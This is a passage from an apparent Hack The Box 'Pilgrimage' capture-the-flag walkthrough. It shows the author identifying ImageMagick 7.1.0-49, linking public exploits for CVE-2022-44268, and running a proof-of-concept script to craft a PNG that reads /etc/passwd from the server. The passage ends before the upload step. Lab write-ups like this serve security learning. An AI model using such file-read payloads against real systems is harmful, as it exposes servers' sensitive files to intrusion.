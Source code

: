 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage/git]
└─$ ls
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```
{: .nolineno}
{: .nolineno}

I saw `magick` which is used in editing images so lets enum further :

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage/git]
└─$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```
{: .nolineno}
{: .nolineno}

Now lets find an exploit for this and I got it which I wanted ⤵️

1. https://github.com/Vulnmachines/imagemagick-CVE-2022-44268
2. https://www.exploit-db.com/exploits/51261
3. https://github.com/voidz0r/CVE-2022-44268

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ python3 poc.py                                       
usage: poc.py [-h] [-i INPUT] [-o OUTPUT] [-r READ] {generate,parse}
poc.py: error: the following arguments are required: action
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ python3 poc.py generate -o passwd.png -r /etc/passwd 
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/HTB/Pilgrimage]
└─$ ls -al passwd.png 
-rw-r--r-- 1 kali kali 181 Sep  8 11:43 passwd.png
```
{: .nolineno}
{: .nolineno}

Now lets upload this payload png file into the site and lets download the shrink image which we get after uploading this image ⤵️
